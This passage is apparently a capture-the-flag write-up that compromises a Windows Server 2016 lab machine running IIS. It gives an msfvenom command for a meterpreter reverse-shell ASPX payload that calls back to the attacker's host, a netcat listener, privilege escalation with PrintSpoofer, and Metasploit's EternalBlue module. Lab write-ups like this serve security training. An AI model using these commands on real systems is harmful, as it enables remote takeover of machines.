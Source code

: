 #### Reverse Shell Exploitation

The first step to take is to create a payload using `msfvenom` to get us a reverse shell.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=$MY_IP lport=4444 -f aspx -o shell.aspx
```

We choose the `.aspx` file extension as the web server we have access to is running IIS.

We then need to create a reverse shell listener (I opted to use `rlwrap nc -lvnp 4444` for my listener based on the script that I had modified).

Once we've got our listener ready, we can upload the payload to the target host via the SMB share we have and execute it by navigating to the exposed webpage on `https://$IP:49663/nt4wrksv/shell.aspx`.

This gives us the `IIS APPPOOL\DefaultAppPool` user account.

At this point, we can access the user share on the machine and get the first flag for the user: `cat c:/users/bob/desktop/user.txt`.

### Exploitation Phase [Approach 1] - Root

At this point we now have a user account to work with. If we run `systeminfo` we can see that the server is running on `Microsoft Windows Server 2016`. There is a vulnerability in these versions involving impersonation of the `NT/SYSTEM` user by abusing the fact you can create a process in the context of another user. I won't go into detail, but a very good write-up can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) on the process.

We now can upload the `PrintSpoofer.exe` to the share we have access to. Then, we can navigate to the `c:\inetpub\wwwroot\nt4wrksv` folder to locate the executable and run it while feeding in a `cmd.exe` argument: `PrintSpoofer.exe -i -c cmd.exe`

This will spawn a `cmd` shell with the `nt authority\system` user.

We have now achieved root privileges and can grab the root flag from `C:\Users\Administrator\Desktop\root.txt`.

### Exploitation Phase [Approach 2] - EternalBlue

Due to the fact that this server is using SMBv1 for its shares, we know that it is vulnerable to the `EternalBlue` exploit. As such, it is trivial for us to exploit this with `metasploit`.

``` bash
    msf > use exploit/windows/smb/ms17_010_eternalblue
    msf exploit(windows/smb/ms17_010_eternalblue) > show options
        set options...
```

We can then set up a listener (either via `nc` or `metasploit` - it doesn't really matter which) and then do:
``` bash
    msf exploit(windows/smb/ms17_010_eternalblue) > run
```
If we run `systeminfo` we get all the information we need about the target machine. If you run `whoami` you'll see that we are `nt authority\system`.

